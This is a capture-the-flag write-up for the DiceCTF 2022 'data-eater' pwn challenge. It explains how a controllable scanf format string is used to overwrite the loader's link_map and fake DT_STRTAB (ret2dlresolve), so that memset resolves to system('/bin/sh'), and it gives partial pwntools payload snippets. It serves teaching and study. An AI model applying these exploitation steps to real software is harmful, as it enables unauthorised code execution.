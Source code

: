 # Is FSB still vulnerable with scanf: Data-eater

- Challenge Authors : KyleForkBomb
- Tag : pwn, fsb, ret2dl, rop
- Points : 220 (25 solves)
- Difficulty : medium

### Challenge Description

> nom nom nom! i can eat all kinds of data :D
> 

I tried to solve this problem in Dice CTF 2022, but I couldn't solve it in the competition, but I tried it again because I thought it would be helpful after seeing the Writeup.

I referenced this writeup, and paper of UseNIX Security about ret2dlresolve

[https://github.com/nhtri2003gmail/writeup-ctf.dicega.ng-dataeater](https://github.com/nhtri2003gmail/writeup-ctf.dicega.ng-dataeater)

[https://www.usenix.org/system/files/conference/usenixsecurity15/sec15-paper-di-frederico.pdf](https://www.usenix.org/system/files/conference/usenixsecurity15/sec15-paper-di-frederico.pdf)

I recommend to read above paper if you don’t know ret2dlresolve detail. Because paper is very detailed about ELF security.

Let’s go!! ▶️

If we unzip challenge file we can only get a ELF executable file `dataeater` 

## 1. Analysis

We can see file information with `file` command

```html
dataeater: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, for GNU/Linux 3.2.0, BuildID[sha1]=a3e6d6f42869e6785a5d3815426a76137ac581e1, not stripped
```

We know this binary is 64-bit not stripped file, so we can identify symbols of binary

Let’s see file mitigation!!

```html
Arch:     amd64-64-little
RELRO:    Partial RELRO
Stack:    Canary found
NX:       NX enabled
PIE:      No PIE (0x400000)
```

There is no pie, partial RELRO ⇒ In this challenge this feature will be used

Now let's take a look at the flow of the program with IDA Pro.

```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  const char **v3; // rax
  const char **v4; // rax
  char s[8]; // [rsp+20h] [rbp-10h] BYREF
  unsigned __int64 v9; // [rsp+28h] [rbp-8h]

  v9 = __readfsqword(0x28u);
  while ( *argv )
  {
    v3 = argv++;
    *v3 = 0LL;
  }
  while ( *envp )
  {
    v4 = envp++;
    *v4 = 0LL;
  }
  fgets(s, 8, stdin);
  __isoc99_scanf(s, &buf);
  memset(&buf, 0, 0x20uLL);
  MEMORY[0] = 0;
  return 0;
}
```

We can see first program receive **8 bytes data for format string used by scanf**

so we can control scanf’s format string

After scanf, memset our global variable, program crash itself

So How we use this vulnerability?

## 2. Exploit

Before exploit, We have to know `lazy binding`, `link_map` structure, `DT_STRTAB`

First, We have to know `link_map` pointer usually in stack. I assume that in lazy binding, `link_map` and `reloc_offset` is pushed to resolve library function. so I think when `__libc_start_main@plt`  called, link_map’s address is pushed

so If we make format string like `%s%<linkmap_offset>$s` we can overwrite `buf` and `link_map` in loader memory. and if we change `link_map` values, we can control `memset's lazy binding`process!!

```python
payload = b'%s%32$s' ## this 32 value will be known by gdb or brute force for remote environment

p.sendline(payload)
```

Let’s see `link_map` & `dl_fixup`

[link_map](https://code.woboq.org/userspace/glibc/include/link.h.html#92):

```c
struct link_map
{
    Elf64_Addr l_addr;
    char *l_name;
    Elf64_Dyn *l_ld;
    struct link_map *l_next, *l_prev;
    struct link_map *l_real;
    Lmid_t l_ns;
    struct libname_list *l_libname;
    Elf64_Dyn l_info[77]
    ...
}
```

[dl_fixup](https://code.woboq.org/userspace/glibc/elf/dl-runtime.c.html#59):

```c
1  |_dl_fixup (
2  |# ifdef ELF_MACHINE_RUNTIME_FIXUP_ARGS
3  |            ELF_MACHINE_RUNTIME_FIXUP_ARGS,
4  |# endif
5  |            struct link_map *l, ElfW(Word) reloc_arg)
6  |{
7  |    const ElfW(Sym) *const symtab = (const void *) D_PTR (l, l_info[DT_SYMTAB]);
8  |    const char *strtab = (const void *) D_PTR (l, l_info[DT_STRTAB]);
9  |    
10 |    const PLTREL *const reloc = (const void *) (D_PTR (l, l_info[DT_JMPREL]) + reloc_offset);
11 |    const ElfW(Sym) *sym = &symtab[ELFW(R_SYM) (reloc->r_info)];
12 |    const ElfW(Sym) *refsym = sym;
13 |    void *const rel_addr = (void *)(l->l_addr + reloc->r_offset);
14 |    lookup_t result;
15 |    DL_FIXUP_VALUE_TYPE value;
16 |    
17 |    /* Sanity check that we're really looking at a PLT relocation.  */
18 |       assert (ELFW(R_TYPE)(reloc->r_info) == ELF_MACHINE_JMP_SLOT);
19 |    
20 |    /* Look up the target symbol.  If the normal lookup rules are not
21 |       used don't look in the global scope.  */
.. |    ...
89 |}
```

[DT_* constant](https://code.woboq.org/userspace/glibc/elf/elf.h.html#853) value which is used by `dl_fixup`:

```c
# define DT_STRTAB        5  // we will use this value
# define DT_SYMTAB        6
# define DT_JMPREL        23
```

Above code and paper about ret2dlresolve, we can know there is two ways to hijack control flow from abusing lazy binding process

1. control reloc_offset variable by ROP ⇒ make Fake ELF64_Rela, ELF64_SYM strucre in bss or writeable memory ⇒ execute arbitary function
2. control l_info[DT_STRTAB] in link_map which value is pointer of .dynamic section which has value of elf string table section address and make fake string table in writable memory  ⇒ so lazy binding process will be mistaken string table ⇒ execute arbitary function

We will use 2nd approach by overwrite until `l_info[DT_STRTAB]` 

```python
link_map = p64(0) * 13 # we have to see this offset everytime
link_map += p64(elf.sym['buf'] + 8)[:-1]
```

So we can abuse that lazy binding system see our `buf+8` as .dynamic section which has string table address.

this is real .dynamic section

```python
gef➤  # x/50xg linkmap
gef➤  x/50xg 0x00007ffff7ffe180
0x7ffff7ffe180:    0x0000000000000000    0x00007ffff7ffe720
0x7ffff7ffe190:    0x0000000000600e20    0x00007ffff7ffe730
0x7ffff7ffe1a0:    0x0000000000000000    0x00007ffff7ffe180
0x7ffff7ffe1b0:    0x0000000000000000    0x00007ffff7ffe708
0x7ffff7ffe1c0:    0x0000000000000000    0x0000000000600e20    <-- l_info at 0x7ffff7ffe1c0
0x7ffff7ffe1d0:    0x0000000000600f00    0x0000000000600ef0
0x7ffff7ffe1e0:    0x0000000000000000    0x0000000000600ea0    <-- l_info[5] = 0x0000000000600ea0
0x7ffff7ffe1f0:    0x0000000000600eb0    0x0000000000600f30
0x7ffff7ffe200:    0x0000000000600f40    0x0000000000600f50

gef➤  # x/2xg l_info[DT_STRTAB] = l_info[5]
gef➤  x/2xg 0x0000000000600ea0
0x600ea0:    0x0000000000000005    0x0000000000400380        <-- STRTAB
```

we abuse 0x600ea0 → &(buf + 8), and make *(buf + 16) = &buf

and originally memset string location in .dynstr is 55. so we write “system” in &(buf + 55)

```python
buf_data = fit({
        0: b"/bin/sh\x00",
        8: flat(5, elf.sym['buf']),
        55: b'system\x00'
        }, filler = b"\x00")
```

then we can get shell!!

I think this challenge is very instructive, and thanks to this challenge and nice writeup with paper!! In the process of trying to understand writeup, I also read a paper, so I learned a lot about ELF.
